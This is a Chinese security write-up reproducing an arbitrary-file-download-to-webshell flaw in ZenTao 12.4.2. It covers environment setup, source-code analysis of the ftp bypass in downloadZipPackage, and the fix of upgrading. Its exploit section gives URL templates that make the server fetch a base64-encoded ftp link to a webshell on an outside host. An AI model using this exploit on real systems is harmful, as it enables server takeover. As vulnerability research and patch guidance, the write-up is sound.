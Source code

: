 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/Uak631OOC48WcshaYnvsRQ)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****口算 md5****@Timeline Sec  
**

**本文字数：1508**

**阅读时长：5～6min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

禅道是第一款国产的开源项目管理软件，她的核心管理思想基于敏捷方法 scrum，内置了产品管理和项目管理，同时又根据国内研发现状补充了测试管理、计划管理、发布管理、文档管理、事务管理等功能，在一个软件中就可以将软件研发中的需求、任务、bug、用例、计划、发布等要素有序的跟踪管理起来，完整地覆盖了项目管理的核心流程。

**0x02 漏洞概述**  

  

禅道 12.4.2 版本存在任意文件下载漏洞，该漏洞是因为 client 类中 download 方法中过滤不严谨可以使用 ftp 达成下载文件的目的。且下载文件存储目录可解析 php 文件，造成 getshell。

**0x03 影响版本**  

  

禅道≤ 12.4.2

**0x04 环境搭建**  

  

**环境：phpStudy + 禅道 12.4.2  
**

#### 1、官网下载禅道 12.4.2

因为我们要调试代码，所以下载源码，不用官方的集成环境，这里我用的是中文版的那个源码。

https://www.zentao.net/dynamic/zentaopms12.4.2-80263.html

#### 2、源码安装

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicHmTlEOmlebE6JsXxYtzWAupibCntl1MViaOrGJTKjAoXQUCgjFWuKRWQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoictweGNN15gpkXrmShp9FTpHdFE3bj5F3Sqg5jibYxibptZ91ZjjZPcH9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicYWDM5U7eAYL79WkUIIkvUJpfPCqdUuibFtX66Ff98tE9TArSVtUwauA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicmIbGKqS0NkhpviasVrocFty0XuZVhBE6JFRfh8ibshlj7qbUk5vsnB7Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicZ0qMaIK7iaJoibLSV4YKqRAn9ARWyxMBDg6tkr6OibFUaPdxI5tiaQWR5Q/640?wx_fmt=png)

这里我用的是 PATH\_INFO 的传参方式，默认的 get 形式也一样已利用漏洞，有兴趣可以自己研究下。  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicoLqEAbnUCoU2q9apUbaickR736sHRLBAhicdcKCJdwWfVI2WnaTDzGJQ/640?wx_fmt=png)

设置密码

官方安装说明链接：

https://www.zentao.net/book/zentaopmshelp/101.html

**0x05 漏洞复现**  

  

**EXP：**

http://127.0.0.1/zentao/client-download-1-<**base64 encode webshell download link**\>-1.html

http://127.0.0.1/zentao/data/client/1/<**download link filename**\>

目录根据自己环境的不同自行修改下，base64 编码的那串是 ftp 链接  

此处为 ftp://192.168.5.104/a.php 的 base64 的编码  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicfGLqcylEzUgIq22V49ytY28xu8y7aWTqdadAtBV3SbicibibqYKKpUTkQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicyG1wl5oB6BUKe9GkT7tdkwfe9WeYZzib8Qa08lxYGvRtLxHwiavSHffA/640?wx_fmt=png)

**0x06 漏洞分析**  

  

该漏洞主要是因为 download 中的 downloadZipPackage 函数过滤不严谨，可以使用 ftp 绕过。

**1、传参调用分析**
------------

先看下怎么传参和调用的

在 index.php 的 loadModule() 断下，看下参数  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoic5599yxeiaibRezdAlnMq48qGjfzjuOPVCWoxX4XryznbHKDMg57KTy1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicLUA38icHQSM86sxeIZO2HZRLg74VQoHeUdnEcC10mxicPsxvNWhKAKIw/640?wx_fmt=png)

所以就进入到了 client 类的 download 方法，参数为 (1, 那串 base64,1)  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicnxGsQSKEU7W5ZSpU4w8xnAYic3l8NTtgfHjktXuphP7D59Gja7H63cA/640?wx_fmt=png)

**2、dwonload 函数分析**
-------------------

函数 get()

```
public function download($version = '', $link = '', $os = '')
{
set\_time\_limit(0);
$result = $this->client->downloadZipPackage($version, $link);
if($result == false) $this->send(array('result' => 'fail', 'message' => $this->lang->client->downloadFail));
$client = $this->client->edit($version, $result, $os);
if($client == false) $this->send(array('result' => 'fail', 'message' => $this->lang->client->saveClientError));
$this->send(array('result' => 'success', 'client' => $client, 'message' => $this->lang->saveSuccess, 'locate' => inlink('browse')));
}
```

大概读一读代码

先是个 downloadZipPackage

然后是针对各种错误情况的返回

最后是个成功的回显

那么重点就来到了 downloadZipPackage  

```
public function downloadZipPackage($version, $link)
{
$decodeLink = helper::safe64Decode($link);
if(preg\_match('/^https?\\:\\/\\//', $decodeLink)) return false;

return parent::downloadZipPackage($version, $link);
}
```

这里就是解个 base64，然后判断下是否是 http 的，然后就返回它父类的同名方法的返回结果了  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaJZI50XFIgibYVibKS5ATRoicDKLlNOz5jZHOsFMfSjZXl4diaRXFXR124xMLgANBMdQLiaxnibA2IAumA/640?wx_fmt=png)

可以看到 ftp 的链接成功绕过了正则，进入到了父类同名函数

```
/\*\*
\* Download zip package.
\* @param $version
\* @param $link
\* @return bool | string
\*/
public function downloadZipPackage($version, $link)
{
ignore\_user\_abort(true);
set\_time\_limit(0);
if(empty($version) || empty($link)) return false;
$dir = "data/client/" . $version . '/';
$link = helper::safe64Decode($link);
$file = basename($link);
if(!is\_dir($this->app->wwwRoot . $dir))
{
mkdir($this->app->wwwRoot . $dir, 0755, true);
}
if(!is\_dir($this->app->wwwRoot . $dir)) return false;
if(file\_exists($this->app->wwwRoot . $dir . $file))
{
return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
}
ob\_clean();
ob\_end\_flush();


$local = fopen($this->app->wwwRoot . $dir . $file, 'w');
$remote = fopen($link, 'rb');
if($remote === false) return false;
while(!feof($remote))
{
$buffer = fread($remote, 4096);
fwrite($local, $buffer);
}
fclose($local);
fclose($remote);
return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
}
}
```

父类这个就没啥了，就是个正常的下载，写文件  

路径是 $dir = "data/client/" . $version . '/';

**0x07 修复方式**  

  

1、升级到禅道 12.4.3 及之后的版本

```
参考链接：
```

https://www.t00ls.net/redirect-58415.html#lastpost  

Timeline Sec 发起了一个读者讨论 1、复现讨论 2、期待文章 3、点赞支持

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行